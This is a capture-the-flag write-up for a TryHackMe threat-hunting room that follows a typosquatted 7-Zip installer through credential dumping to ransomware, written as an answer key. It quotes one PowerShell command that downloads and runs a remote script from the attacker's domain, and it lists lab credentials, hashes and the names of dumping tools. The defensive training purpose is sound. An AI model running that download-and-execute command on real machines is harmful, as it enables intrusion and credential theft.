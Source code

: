 ```yaml
---
title: "[THM] Hunt Me II: Typo Squatters"
date: 2024-07-10
categories: [Writeups, TryHackMe]
tags: [THM, Writeup, Elastic, ELK, SIEM]
---
```

Just working on a typical day as a software engineer, Perry received an encrypted 7z archive from his boss containing a snippet of a source code that must be completed within the day. Realising that his current workstation does not have an application that can unpack the file, he spins up his browser and starts to search for software that can aid in accessing the file. Without validating the resource, Perry immediately clicks the first search engine result and installs the application. 

<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-Scenario.png" alt="THM-Hunt-Me-II-Typo-Squatters" style="width:500px;height:500;">

Last September 26, 2023, one of the security analysts observed something unusual on the workstation owned by Perry based on the generated endpoint and network logs. Given this, your SOC lead has assigned you to conduct an in-depth investigation on this workstation and assess the impact of the potential compromise.

# Questions

**Q:** What is the URL of the malicious software that was downloaded by the victim user? <br />
**A:** http://www.7zipp.org/a/7z2301-x64.msi
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q1-1.png" alt="THM-Hunt-Me-II-Typo-Squatters">
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q1-2.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** What is the IP address of the domain hosting the malware? <br />
**A:** 206.189.34.218
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q2.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** What is the PID of the process that executed the malicious software? <br />
**A:** 2532
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q3.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** Following the execution chain of the malicious payload, another remote file was downloaded and executed. What is the full command line value of this suspicious activity? <br />
**A:** powershell.exe iex(iwr http://www.7zipp.org/a/7z.ps1 -useb)
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q4.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** The newly downloaded script also installed the legitimate version of the application. What is the full file path of the legitimate installer? <br />
**A:** C:\Windows\Temp\7zlegit.exe

***

**Q:** What is the name of the service that was installed? <br />
**A:** 7zService

***

**Q:** The attacker was able to establish a C2 connection after starting the implanted service. What is the username of the account that executed the service? <br />
**A:** SYSTEM
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q7.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** After dumping LSASS data, the attacker attempted to parse the data to harvest the credentials. What is the name of the tool used by the attacker in this activity? <br />
**A:** Invoke-PowerExtract
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q8-1.png" alt="THM-Hunt-Me-II-Typo-Squatters">
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q8-2.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** What is the credential pair that the attacker leveraged after the credential dumping activity? (format: username:hash) <br />
**A:** james.cromwell:B852A0B8BD4E00564128E0A5EA2BC4CF
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q10.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** After gaining access to the new account, the attacker attempted to reset the credentials of another user. What is the new password set to this target account? <br />
**A:** pwn3dpw!!!
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q11.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** What is the name of the workstation where the new account was used? <br />
**A:** WKSTN-02
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q12.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** After gaining access to the new workstation, a new set of credentials was discovered. What is the username, including its domain, and password of this new account? <br />
**A:** SSF\itadmin:NoO6@39Sk0!
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q13.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** Aside from mimikatz, what is the name of the PowerShell script used to dump the hash of the domain admin? <br />
**A:** Invoke-SharpKatz.ps1
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q14.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** What is the AES256 hash of the domain admin based on the credential dumping output? <br />
**A:** f28a16b8d3f5163cb7a7f7ed2c8f2cf0419f0b0c2e28c15f831d050f5edaa534
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q15-1.png" alt="THM-Hunt-Me-II-Typo-Squatters">
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q15-2.png" alt="THM-Hunt-Me-II-Typo-Squatters">

***

**Q:** After gaining domain admin access, the attacker popped ransomware on workstations. How many files were encrypted on all workstations? <br />
**A:** 46
<img src="/assets/img/THM-Hunt-Me-II-Typo-Squatters/THM-Hunt-Me-II-Typo-Squatters-q16.png" alt="THM-Hunt-Me-II-Typo-Squatters">